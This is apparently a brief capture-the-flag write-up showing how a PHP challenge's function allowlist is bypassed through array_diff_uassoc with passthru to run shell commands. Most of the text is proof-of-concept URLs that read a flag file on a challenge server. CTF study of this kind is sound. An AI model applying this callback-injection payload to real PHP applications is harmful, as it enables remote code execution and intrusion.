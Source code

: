 # Asoy
Function limitation bypass via array_diff_uassoc leads to RCE

# POC
Normal: 
- http://localhost:15236/?function_name=reflectUserInput&param1[]=1&param1[]=2&param2[]=1&param2[]=2&param3=hehehe

Failed Exploit: 
- http://localhost:15236/?function_name=PaSStHru&param1[]=touch hubla.txt&param2[]=999&param3=hehehe
- http://localhost:15236/?function_name=call_user_func_array&param1[]=system&param2[]=123&param3=ls

Successful Exploit: 
- http://localhost:15236/?function_name=array_diff_uassoc&param1[cat /flag.txt]=999&param2[something]=999&param3=passthru
- http://chall.selekda.idcyberskills.com:15236/?debug=1&function_name=array_diff_uassoc&param1[cat%20/flag.txt]=999&param2[something]=999&param3=passthru